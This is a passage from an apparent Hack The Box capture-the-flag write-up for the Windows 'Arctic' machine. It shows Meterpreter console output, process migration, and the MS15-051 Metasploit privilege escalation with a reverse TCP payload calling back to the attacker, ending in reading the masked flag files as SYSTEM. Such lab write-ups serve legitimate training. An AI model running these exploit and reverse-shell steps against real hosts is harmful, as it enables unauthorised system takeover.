 <br>2920&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>3032&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>3172&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;msdtc.exe                                             
 <br>3180&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>3320&nbsp;&nbsp;2892&nbsp;&nbsp;EKieCvWfF.exe                                         
 <br>3356&nbsp;&nbsp;336&nbsp;&nbsp;&nbsp;powershell.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>3664&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe</p>

<p>meterpreter > migrate 2320
<br><font color="RoyalBlue">[*]</font> Migrating from 3356 to 2320...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x64/windows
<br>meterpreter ></p>
</div>
</font>
<br>We successfully migrated to a x64 process and now we can proceed to epxloit to gte system level access.
<br>**POC**
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 2...
<br>msf exploit(<font color="red">handler</font>) > use exploit/windows/local/ms15_051_client_copy_image 
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set SESSION 2
<br>SESSION => 2
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set payload windows/x64/meterpreter/reverse_tcp
<br>payload => windows/x64/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > set target 1
<br>target => 1
<br>msf exploit(<font color="red">ms15_051_client_copy_image</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 3300 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 3300...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 3300...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 3300...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Sending stage (1189423 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 3 opened (10.10.*.*:444 -> 10.10.10.11:49272) at 2017-12-30 04:25:47 -0500</p>

<p>meterpreter > getuid 
<br>Server username: NT AUTHORITY\SYSTEM
<br>meterpreter > shell
<br>Process 3652 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.</p>

<p>C:\ColdFusion8\runtime\bin>cd /
<br>cd /</p>

<p>C:\>cd users
<br>cd users</p>

<p>C:\Users>cd tolis/Desktop
<br>cd tolis/Desktop</p>

<p>C:\Users\tolis\Desktop>type user.txt
<br>type user.txt
<br><font color="53E100">********************************</font></p>

<p>C:\Users>cd administrator
<br>cd administrator</p>

<p>C:\Users\Administrator>cd Desktop
<br>cd Desktop</p>

<p>C:\Users\Administrator\Desktop>type root.txt
<br>type root.txt
<br><font color="53E100">*******************************</font></p>

</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
